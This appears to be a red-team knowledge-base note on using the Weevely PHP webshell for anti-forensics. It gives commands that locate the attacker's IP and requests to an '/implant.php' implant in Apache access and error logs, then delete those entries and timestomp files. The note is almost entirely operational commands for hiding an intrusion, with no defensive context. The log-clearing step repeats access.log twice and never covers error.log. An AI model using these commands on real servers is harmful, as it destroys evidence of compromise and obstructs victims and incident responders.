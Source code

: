 ```yaml
---
author(s):
  - Userware
tags:
  - webshell
  - interactive-shell
  - defense-evasion
  - anti-forensics
  - weevely
---
```

# Webshell

## Weevely

```
weevely> :system_info -info client_ip
<attacker_IP>
```

```
weevely> stat /var/log/apache2/access.log

weevely> stat /var/log/apache2/error.log
```

```
weevely> :file_grep /var/log/apache2/access.log "<attacker_IP>"

weevely> :file_grep /var/log/apache2/error.log "<attacker_IP>"
```

```
weevely> :file_grep /var/log/apache2/access.log "GET /implant.php"

weevely> :file_grep /var/log/apache2/error.log "GET /implant.php"
```

Modify the log by removing the attacker's IP address.

```
weevely> :file_clearlog <attacker_IP> /var/log/apache2/access.log

weevely> :file_clearlog <attacker_IP> /var/log/apache2/access.log
```

```
weevely> :file_touch
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/13 - Anti-Forensics/Cross Platform/Clear Traces/Timestomp/Webshell]]

### Weevely

- [Weevely: Clean IP address from logs](https://github.com/epinna/weevely3/wiki/Clean-IP-address-from-logs)